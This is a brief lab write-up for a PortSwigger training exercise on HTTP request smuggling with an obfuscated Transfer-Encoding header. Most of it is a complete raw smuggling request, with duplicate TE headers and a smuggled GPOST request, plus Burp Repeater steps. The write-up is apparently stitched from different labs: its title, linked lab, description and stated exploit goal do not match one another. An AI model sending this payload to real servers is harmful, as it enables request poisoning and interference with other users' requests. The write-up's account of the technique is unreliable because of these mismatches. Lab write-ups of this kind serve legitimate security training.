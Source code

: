 # HTTP request smuggling, obfuscating the TE header

## Description

[This lab](https://portswigger.net/web-security/request-smuggling/finding/lab-confirming-cl-te-via-differential-responses) involves a front-end and back-end server, and the front-end server doesn't support chunked encoding.

## Reproduction and proof of concept

1. In Burp Suite, go to the Repeater menu and ensure that the "Update Content-Length" option is unchecked.
2. Using Burp Repeater, issue the following request twice:

```text
POST / HTTP/1.1
Host: lab-id.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked
Transfer-encoding: cow

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0


```

The second response should say: ``Unrecognized method GPOST``. 

## Exploitability

An attacker will need to smuggle a request to the back-end server, so that a subsequent request for `/` (the web root) triggers a `404 Not Found` response.
